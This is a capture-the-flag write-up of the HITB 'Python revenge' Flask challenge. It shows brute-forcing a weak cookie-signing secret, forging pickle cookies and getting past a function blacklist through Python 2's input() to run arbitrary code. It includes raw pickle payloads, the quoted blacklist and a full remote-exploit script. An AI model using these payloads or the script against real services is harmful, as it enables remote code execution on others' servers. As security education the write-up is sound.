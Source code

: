 # Python revenge (Web)

In the task we get access to a webpage which stores some data we input in a form.
We also get [source code](revenge.py) of the page.
It's using Flask and Python.

The important part is the way the page stores our input:

```python
location = b64e(pickle.dumps(location))
cookie = make_cookie(location, cookie_secret)
```

So the data are stored in a cookie using pickle, and as it seems they are loaded the same way:

```python
def loads(strs):
    reload(pickle)
    files = StringIO(strs)
    unpkler = pickle.Unpickler(files)
    unpkler.dispatch[pickle.REDUCE] = _hook_call(
        unpkler.dispatch[pickle.REDUCE])
    return unpkler.load()
```

We've written already quite a few writeups on exploiting pickle.
In short pickle deserialization can call functions.
We only need to have a callable and tuple of arguments and we can call this.
The simplest trick would be to make a pickle like:

```
cos
system
(S'ls -la'
tR.
```

Where `c` means that rests of the line is module name and next line is symbol name to import, `S'some string'` places a string on the stack, `t` means pop elements from the stack up until `(` and then place a tuple of all those arguments on the stack, and `R` means pop 2 elements from the stack, and try to call the first one with second one as argument. 
Dot is just end of pickle.

So this translates to: `os.system('ls -la')`

In our task we've got two issues to overcome. First there is a signature for the cookie content:

```python
def getlocation():
    cookie = request.cookies.get('location')
    if not cookie:
        return ''
    (digest, location) = cookie.split("!")
    if not safe_str_cmp(calc_digest(location, cookie_secret), digest):
        flash("Hey! This is not a valid cookie! Leave me alone.")
        return False
    location = loads(b64d(location))
    return location


def make_cookie(location, secret):
    return "%s!%s" % (calc_digest(location, secret), location)


def calc_digest(location, secret):
    return sha256("%s%s" % (location, secret)).hexdigest()
```

So we can't simply place any payload in the cookie, because we need to know the hash.
The secret to hash is appended at the end, so we can'y simply use hash length extension here.
However, we notice in the code:

```python
if not os.path.exists('.secret'):
    with open(".secret", "w") as f:
        secret = ''.join(random.choice(string.ascii_letters + string.digits)
                         for x in range(4))
        f.write(secret)
with open(".secret", "r") as f:
    cookie_secret = f.read().strip()
```

So the `secret` is actually only 4 bytes and only from `string.ascii_letters + string.digits` charset!
We can simply grab an some random cookie and then run:

```python
def break_cookie():
    data = 'd7e3bd07f7ae389f07abe89d199ebae1e1e67b4479a98870ee5a3c4fe0f56237!VjErMQpwMAou'
    (hash, msg) = data.split("!")
    for c in itertools.product(string.ascii_letters + string.digits, repeat=4):
        if hashlib.sha256("%s%s" % (msg, "".join(c))).hexdigest() == hash:
            print("".join(c))


break_cookie()
```

This way we recover secret `hitb`

Now we can send arbitrary payloads to the page, now we need to face the second issue:

```python
black_type_list = [eval, execfile, compile, open, file, os.system, os.popen, os.popen2, os.popen3, os.popen4, os.fdopen, os.tmpfile, os.fchmod, os.fchown, os.open, os.openpty, os.read, os.pipe, os.chdir, os.fchdir, os.chroot, os.chmod, os.chown, os.link, os.lchown, os.listdir, os.lstat, os.mkfifo, os.mknod, os.access, os.mkdir, os.makedirs, os.readlink, os.remove, os.removedirs, os.rename, os.renames, os.rmdir, os.tempnam, os.tmpnam, os.unlink, os.walk, os.execl, os.execle, os.execlp, os.execv, os.execve, os.dup, os.dup2, os.execvp, os.execvpe, os.fork, os.forkpty, os.kill, os.spawnl, os.spawnle, os.spawnlp, os.spawnlpe, os.spawnv, os.spawnve, os.spawnvp, os.spawnvpe, pickle.load, pickle.loads, cPickle.load, cPickle.loads, subprocess.call, subprocess.check_call, subprocess.check_output, subprocess.Popen, commands.getstatusoutput, commands.getoutput, commands.getstatus, glob.glob, linecache.getline, shutil.copyfileobj, shutil.copyfile, shutil.copy, shutil.copy2, shutil.move, shutil.make_archive, dircache.listdir, dircache.opendir, io.open, popen2.popen2, popen2.popen3, popen2.popen4, timeit.timeit, timeit.repeat, sys.call_tracing, code.interact, code.compile_command, codeop.compile_command, pty.spawn, posixfile.open, posixfile.fileopen]
```

We can't use any of those in our pickle payload, so our example with `os.system` won't do.

It took a moment to notice one important thing about this task - it's Python 2, and on the blacklist there is no `input()` function.
There is a huge difference between Python 2 and 3 regarding this function.
In Python 3 it behaves the same as `raw_input()` from Python 2 - it simply reads input from stdin.
But in Python 2 what it does is actually `eval(raw_input())`, so by using `input()` we can do `eval()`.

The function itself we can grab from `__builtin__` module so simple:

```
c__builtin__
input
(S'> '\ntR.
```

Would invoke the function with `> ` as prompt.
Now we need to actually send some data to the function, but it reads from `stdin`.
Fortunately python allows to monkey-patch almost anything, so we can simply assign some object to `sys.stdin` and therefore substitute stdin for something else.
Of course pickle requires the functinal form of `function, args` so we actually need to do `setattr(sys, 'stdin', something_else)`
Again, we can grab `setattr` from `__builtin__`.
To get `sys` module object we need to import it.
We can't use `csys` or `isys` because both require actually importing something from this module, not module itself.
What we need is to call `__import__('sys')`, and again function `__import__` is in `__builtin__`.

So we can just do:

```
c__builtin__
setattr
(c__builtin__
__import__
(S'sys'
tR
S'stdin'
SOMETHING_ELSE
tR.
```

Which will translate to `__builtin__.setattr(__builtin__.__import__('sys'),'stdin',SOMETHING_ELSE)`

Now the last part is to change `stdin` into some string based source, for that we can just use `StringIO` class so:

```
cStringIO
StringIO
(S'command'
tR.
```

So now if we combine this we get:

```
c__builtin__
setattr
(c__builtin__
__import__
(S'sys'
tRS'stdin'
cStringIO
StringIO
(S'" + command_to_eval + "'
tRtRc__builtin__
input
(S'python> '
tR.
```

Which translates to:

```
newstdin = StringIO.StringIO(command_to_eval) # just for readability
__builtin__.setattr(__builtin__.__import__('sys'),'stdin',newstdin)
__builtin__.input('python> ')
```

And gives us power to execute python.

The final attck script is simply:

```python
def main():
    url = "http://47.75.151.118:9999"
    response = ""
    while True:
        try:
            command_to_eval = raw_input("python> ")
            payload = "c__builtin__\nsetattr\n(c__builtin__\n__import__\n(S'sys'\ntRS'stdin'\ncStringIO\nStringIO\n(S'" + command_to_eval + "'\ntRtRc__builtin__\ninput\n(S'> '\ntR."
            response = requests.get(url, cookies={"location": make_cookie(base64.b64encode(payload), 'hitb')})
            print(re.findall('<h3 class="wow fadeInLeftBig">(.*?)</h3>', response.text, re.DOTALL)[0])
        except Exception as e:
            print(response.text)


main()
```

We can execute for example `__import__("subprocess").check_output("ls")` to run `ls` command.
For some reason it was failing on some commands, so we just kept using Python API like `__import__("os").listdir("/")`
In the root there was file `flag_is_here` and by sending `open('/flag_is_here','r').read()` we get: `HITB{Py5h0n1st8eBe3tNOW}`

